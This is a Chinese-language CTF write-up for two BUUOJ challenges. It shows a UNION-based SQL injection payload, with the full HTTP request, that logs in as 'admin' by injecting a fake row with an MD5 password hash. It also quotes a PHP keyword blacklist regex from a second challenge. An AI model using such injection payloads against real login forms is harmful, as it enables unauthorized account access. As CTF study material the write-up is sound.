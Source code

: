 ## [GXYCTF2019]BabySQli

**知识点**

> 在mysql中，进行联合查询时，如果数据不存在，联合查询就会构造一个虚拟的数据

现在有一个表，表里有以下数据

![image-20240202180037559](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240202180037559.png)

我们执行sql语句

```sql
select * from test where username = '1' union select 0,'admin',"12345";
```

数据就被篡改了

![image-20240202180300916](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240202180300916.png)

在这里，表里的密码是进行MD5加密的，所以payload是

```
name='union select 1,'admin','e10adc3949ba59abbe56e057f20f883e'#
pw=123456
```



```http
POST /search.php HTTP/1.1
Host: 241ef65a-73aa-49ca-afad-1b7400e11aef.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://241ef65a-73aa-49ca-afad-1b7400e11aef.node5.buuoj.cn:81/search.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://241ef65a-73aa-49ca-afad-1b7400e11aef.node5.buuoj.cn:81
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

name=' union select 1,"admin","e10adc3949ba59abbe56e057f20f883e"--+&pw=123456
```

## [GYCTF2020]Blacklist

根据回显，知道过滤了很多关键字

```php
return                     preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```
